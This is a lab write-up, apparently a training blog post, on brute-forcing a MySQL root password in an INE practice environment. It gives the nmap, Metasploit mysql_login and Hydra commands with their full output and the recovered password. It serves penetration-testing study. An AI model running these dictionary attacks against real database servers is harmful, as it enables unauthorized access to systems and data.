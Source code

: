 ```yaml
---
layout: post
title: "MySQL Dictionary Attack"
date: "2022-08-26"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Assessment Methodologies
    - Enumeration
---
```


# MySQL Dictionary Attack（MySQL Dictionary Attack）
```
ip a

eth1 192.99.154.2/24
```

```
nmap 192.99.154.3

PORT        STATE   SERVICE
3306/tcp    open    mysql
```

```
nmap 192.99.154.3 -p 3306 -sV

PORT        STATE   SERVICE VERSION
3306/tcp    open    mysql   MySQL 5.5.62-0ubuntu0.14.04.1
```

```
msfconsole

use auxiliary/scanner/mysql/mysql_login
set rhosts 192.99.154.3
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
run
exit
```

```
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.99.154.3 mysql 
```

# MySQL Recon: Dictionary Attack（MySQL Recon：字典攻击）
## 概述
在这个挑战中，我们将研究对 MySQL 服务器的字典攻击。请开始实验并回答以下问题：

问题

1. 找到访问 MySQL 服务器所需的用户“root”的密码。使用合适的 metasploit 模块和密码字典：/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
2. 找到访问 MySQL 服务器所需的用户“root”的密码。使用 Hydra 和密码字典：/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

指示： 

* 这个实验室是献给你的！此网络上没有其他用户 :)
* 开始实验室后，您将可以访问 Kali 实例的根终端
* 你的 Kali 有一个 IP 地址为 192.XYZ 的接口运行“ip addr”来知道 X 和 Y 的值。
* 目标机器应位于 IP 地址 192.XY3。
* 不要攻击位于 IP 地址 192.XY1 的网关

## 我自己的思路

In this challenge we will look at the dictionary attacks on MySQL server. Please start the lab and answer the following questions:

```
root@attackdefense:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
31246: eth0@if31247: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:00:07 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.7/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
31249: eth1@if31250: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:8a:31:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.138.49.2/24 brd 192.138.49.255 scope global eth1
       valid_lft forever preferred_lft forever
```

```
root@attackdefense:~# nmap 192.138.49.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 12:12 UTC
Nmap scan report for target-1 (192.138.49.3)
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:C0:8A:31:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

```
root@attackdefense:~# nmap 192.138.49.3 -p 3306 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 12:14 UTC
Nmap scan report for target-1 (192.138.49.3)
Host is up (0.000044s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
MAC Address: 02:42:C0:8A:31:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

Questions

Find the password of user “root” which is required to access the MySQL server. Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

`root:catalina`

[MySQL Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/)

这个模块简单地查询 MySQL 实例以获取特定的用户/密码（默认是 root 和空白）。

```
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 192.138.49.3
RHOSTS => 192.138.49.3
msf5 auxiliary(scanner/mysql/mysql_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/mysql/mysql_login) > run

[+] 192.138.49.3:3306     - 192.138.49.3:3306 - Success: 'root:catalina'
[*] 192.138.49.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Find the password of user “root” which is required to access the MySQL server. Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

`root:catalina`


```
root@attackdefense:~# hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.138.49.3 mysql
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-26 12:29:08
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.138.49.3:3306/
[3306][mysql] host: 192.138.49.3   login: root   password: catalina
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-26 12:30:02
```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-532.pdf

[mysql](https://www.mysql.com/)

[MySQL Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/)

[hydra](https://www.kali.org/tools/hydra/)